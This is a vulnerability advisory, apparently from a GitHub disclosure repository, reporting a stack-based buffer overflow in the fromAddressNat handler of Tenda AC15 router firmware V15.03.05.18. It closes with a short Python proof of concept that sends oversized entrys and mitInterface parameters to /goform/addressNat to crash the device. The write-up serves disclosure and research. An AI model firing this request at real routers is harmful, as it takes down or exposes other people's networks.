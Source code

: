 # Tenda Router AC15 Vulnerability
This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router AC15_V15.03.05.18. (The latest version is [AC15_V15.03.05.19](https://www.tenda.com.cn/download/detail-2680.html))

## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC6/215/vuln1.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.

